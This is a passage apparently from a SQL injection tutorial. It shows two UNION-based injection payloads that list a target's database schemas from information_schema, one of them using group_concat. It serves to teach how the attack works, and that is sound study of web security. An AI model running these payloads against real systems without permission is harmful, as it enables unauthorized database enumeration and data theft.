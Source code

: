 Now we can modify the query so we can see the existing databases:

```sql
1'union select 1,schema_name,3 from information_schema.schemata-- -
```

![](/assets/img/SQLi/14.png)

Now we could also use `group_concat` to see them in one line separated by commas:

```sql
1'union select 1,group_concat(schema_name),3 from information_schema.schemata-- -
```

![](/assets/img/SQLi/15.png)
